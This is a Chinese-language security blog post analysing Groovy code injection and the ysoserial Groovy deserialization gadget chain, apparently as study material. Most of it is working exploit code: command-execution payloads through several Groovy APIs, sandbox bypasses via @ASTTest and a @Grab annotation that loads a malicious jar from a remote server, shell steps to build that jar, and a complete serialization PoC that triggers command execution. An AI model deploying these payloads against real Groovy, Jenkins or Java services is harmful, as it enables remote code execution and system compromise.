









前置
Groovy 是一种基于 JVM 的开发语言，Groovy 既可以用作 Java 平台的编程语言，也可以用作脚本语言。groovy 编译之后生成 .class 文件，与 Java 编译生成的无异，因此可以在 JVM 上运行
特点
- 同时支持静态和动态类型；
- 支持运算符重载；
- 本地语法列表和关联数组；
- 对正则表达式的本地支持；
- 各种标记语言，如XML和HTML原生支持；
- Groovy对于Java开发人员来说很简单，因为Java和Groovy的语法非常相似；
- 可以使用现有的Java库；
- Groovy扩展了java.lang.Object；
Groovy代码注入
如果外部可控输入Groovy代码或者外部可上传一个恶意的Groovy脚本，且程序并未对输入的Groovy代码进行有效的过滤，那么会导致恶意的Groovy代码注入，从而RCE

运行这样一个Groovy代码，将会弹出一个计算器，成功执行了命令(def是用来定义标识符)
//其他执行命令执行的方法
Runtime.getRuntime().exec("calc")
"calc".execute()
'calc'.execute()
"${"calc".execute()}"
"${'calc'.execute()}"
//回显的方式
println "whoami".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";
println "${cmd.execute().text}"MethodClosure
看看他的构造方法

可以发现他传入了一个对象，第二个是对象的方法，通过其中的docall方法进行调用
但是docall方法是protected修饰的，不能直接调用，调用它的父类Closure的call方法间接调用
package ysoserial.vulndemo;
import org.codehaus.groovy.runtime.MethodClosure;
public class GroovyInject {
public static void main(String[] args) {
// MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
// methodClosure.call("calc");
MethodClosure methodClosure = new MethodClosure("calc", "execute");
methodClosure.call();
}
}GroovyShell
类中的evaluate方法有多个重载，支持有`GroovyCodeSource String File URI 等参数类型，能够通过Groovy代码写入或者本地加载或者远程加载Groovy脚本来执行命令
其中的parse方法就是或者对应的Groovy脚本，之后调用run方法进行执行代码内容
//直接执行Groovy代码
GroovyShell shell = new GroovyShell();
shell.evaluate("\'calc\'.execute()");//通过加载本地脚本
GroovyShell shell = new GroovyShell();
Script script = shell.parse(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
script.run();
GroovyShell shell = new GroovyShell();
shell.evaluate(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));//通过加载远程脚本
GroovyShell shell = new GroovyShell();
shell.evaluate(new URI("http://127.0.0.1:8888/GroovyTest.groovy"));这里的url和Groovy代码同样可以通过GroovyCodeSource封装之后执行evalute执行代码
GroovyScriptEngine
GroovyScriptEngine可从指定的位置（文件系统、URL、数据库等等）加载Groovy脚本，并且随着脚本变化而重新加载它们
其构造方法存在重载的方式，可以指定远程Url/根文件位置/ClassLoader
之后通过使用run方法回显，有两个重载，一个是传入脚本名和对应的参数，另一个是脚本名和Binding对象
//通过传入根路径之后调用对应的脚本
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("src/main/java/ysoserial/vulndemo");
scriptEngine.run("GroovyTest.groovy", "");//通过调用远程url之后调用特定脚本
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("http://127.0.0.1:8888/");
scriptEngine.run("GroovyTest.groovy", "");//通过Binding加载
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("");
scriptEngine.run("src/main/java/ysoserial/vulndemo/GroovyTest.groovy", new Binding());GroovyClassLoader
GroovyClassLoader是一个定制的类装载器，负责解释加载Java类中用到的Groovy类，重写了loadClass和defineClass方法
parseClass 可以直接从文件或者字符串中获取groovy类
//从文件中获取Groovy类
GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
Class aClass = groovyClassLoader.parseClass(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
GroovyObject object = (GroovyObject) aClass.newInstance();
object.invokeMethod("main", "");//从文本中获取Groovy类
GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
Class aClass = groovyClassLoader.parseClass("class GroovyTest {\n" +
" static void main(args){\n" +
" println \"${'whoami'.execute().text}\"\n" +
"\n" +
" }\n" +
"}");
GroovyObject groovyObject = (GroovyObject) aClass.newInstance();
groovyObject.invokeMethod("main", "");ScriptEngine
在ScriptEngine中，支持名为“groovy”的引擎，可用来执行Groovy代码。这点和在SpEL表达式注入漏洞中讲到的同样是利用ScriptEngine支持JS引擎从而实现绕过达到RCE是一样的
ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByName("groovy");
System.out.println(scriptEngine.eval("\"whoami\".execute().text"));bypass方法
反射+字符串拼接
Groovy沙箱绕过
Groovy代码注入都是注入了execute()函数，从而能够成功执行Groovy代码，这是因为不是在Jenkins中执行即没有Groovy沙箱的限制。但是在存在Groovy沙箱即只进行AST解析无调用或限制execute()函数的情况下就需要用到其他技巧了
@AST注解执行断言
利用AST注解能够执行断言从而实现代码执行
//@AST注解执行断言
this.class.classLoader.parseClass("""
@groovy.transform.ASTTest(value={
assert Runtime.getRuntime().exec("calc")
})
def x
""")
@Grab注解加载远程恶意类
Grape是Groovy内建的一个动态Jar依赖管理程序，允许开发者动态引入不在ClassPath中的函式库
需要导入ivy依赖，不然会报错(你可以试试)
<dependency>
<groupId>org.apache.ivy</groupId>
<artifactId>ivy</artifactId>
<version>2.4.0</version>
</dependency>POC
//@Grab注解加载远程恶意类
this.class.classLoader.parseClass("""
@GrabConfig(disableChecksums=true)
@GrabResolver(name="Poc", root="http://127.0.0.1:8888/")
@Grab(group="Poc", module="EvilJar", version="0")
import java.lang.String
""");这里的加载依赖会看本地仓库是否有，如果没有就从root服务器的group/module/version目录里面下载EvilJar-0.jar文件，默认存放在~/.groovy/grapes目录下
之后使用processOtherServices方法处理其他服务，比如这里的name

我们就需要在服务器上编写一个恶意类
//Poc.java
public class Poc{
Poc() throws Exception{
Runtime.getRuntime().exec("calc");
}
}//编译成.class文件
javac Poc.java
//创建目录
mkdir -p META-INF/services/
//在org.codehaus.groovy.plugins.Runners中写入加载的类名Poc
echo Poc > META-INF/services/org.codehaus.groovy.plugins.Runners
//将.class文件打包成jar包
jar cvf module-version.jar Poc.class META-INF/
//创建放jar包的目录
mkdir -p group/module/version/
//将jar包复制到该目录下
mv module-version.jar group/module/version
//之后开启http服务
Groovy反序列化
MethodClosure
这是一个方法闭包

构造方法接收两个参数，一个是对象，一个是对象的方法名，这个类有一个doCall方法传入一个参数，通过InvokerHelper.invokeMethod调用方法，但是这个方法是private私有属性，我们不能直接调用，我们可以通过反射调用doCall
package ysoserial.vulndemo;
import org.codehaus.groovy.runtime.MethodClosure;
import java.lang.reflect.Method;
public class GroovyTest1 {
public static void main(String[] args) throws Exception {
MethodClosure exec = new MethodClosure(Runtime.getRuntime(), "exec");
Method doCall = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
doCall.setAccessible(true);
doCall.invoke(exec, "calc");
}
}String.execute()
Groovy 为 String 类型添加了 execute() 方法，以便执行 shell 命令
就和前面Groovy注入的代码"calc".execute().text
我们也可以使用上面的那个闭包方法调用
MethodClosure methodClosure = new MethodClosure("calc", "execute");
methodClosure.call();ConvertedClosure
org.codehaus.groovy.runtime.ConvertedClosure 是一个通用适配器，用于将闭包适配到 Java 接口，他继承了ConversionHandler，而ConversionHandler又实现了InvocationHandler接口，所以这就是一个动态代理类
他的构造方法，传入一个Closure和String类型的方法名，当调用这个方法的时候，就会调用ConvertedClosure父类的invoke方法

之后会调用他的invokeCustom方法

如果他们的method方法名相同的话，就会调用Closure对象的call方法传入参数执行
POC编写
package ysoserial.vulndemo;
import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;
public class Groovy_POC {
public static String serialize(Object obj) throws Exception{
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream outputStream = new ObjectOutputStream(barr);
outputStream.writeObject(obj);
byte[] bytes = barr.toByteArray();
barr.close();
return Base64.getEncoder().encodeToString(bytes);
}
public static void unserialize(String base64) throws Exception{
byte[] decode = Base64.getDecoder().decode(base64);
ByteArrayInputStream barr = new ByteArrayInputStream(decode);
ObjectInputStream inputStream = new ObjectInputStream(barr);
inputStream.readObject();
}
public static void main(String[] args) throws Exception{
//封装对象
MethodClosure methodClosure = new MethodClosure("calc", "execute");
ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, "entrySet");
//反射获取AnnotationInvocationHandler构造方法
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = aClass.getDeclaredConstructors()[0];
constructor.setAccessible(true);
//动态代理
Map map = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(), new Class[]{Map.class}, convertedClosure);
//初始化
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);
//序列化
String serialize = serialize(invocationHandler);
System.out.println(serialize);
//反序列化
unserialize(serialize);
}
}
调用链
AnnotationInvocationHandler.readObject()
Map.entrySet() (Proxy)
ConversionHandler.invoke()
ConvertedClosure.invokeCustom()
MethodClosure.call()
ProcessGroovyMethods.execute()AnnotationInvocationHandler 反序列化时调用 memberValues 中存放对象的 entrySet 对象，这个对象是 ConvertedClosure，而这个对象又实际上是 MethodClosure 对象的代理，定义了在调用 entrySet 方法时会调用 invoke 方法去调用 MethodClosure 的 call 方法，触发 Groovy 中 String 类型的 execute 方法执行命令
参考
[（先知首发）从Jenkins RCE看Groovy代码注入 Mi1k7ea ]
Java 反序列化漏洞（三） - CB/Groovy/Hibernate/Spring | 素十八 (su18.org)


- Post link: https://roboterh.github.io/2022/04/19/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BGroovy%E9%93%BE/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.